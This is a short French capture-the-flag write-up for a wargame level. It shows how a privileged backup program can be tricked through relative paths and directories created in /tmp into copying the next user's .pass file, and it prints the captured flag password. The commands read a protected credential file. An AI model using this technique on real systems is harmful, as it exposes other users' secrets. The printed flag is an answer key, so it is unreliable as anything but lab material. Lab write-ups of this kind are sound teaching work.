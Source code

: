 ## GET Flag

Le programme va ouvrir le fichier passé en paramètre et en faire une sauvegarde dans backup.
En se plaçant dans /tmp (où les permissions d'écriture sont présents), il est possible de créer un dossier backup.

```
~level08/level08 ../home/users/level09/.pass
ERROR: failed to open ./backups/../hom/users/level09/.pass
```
Le programme à donc réussi à lire le fichier, mais pas a le réécrire.
en créant les dossiers nécessaises, il est donc possible de créer un backup de .pass

```
mkdir -p /tmp/home/users/level09
~level08/level08 ../home/users/level09/.pass
```

### Flag

```
level09
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
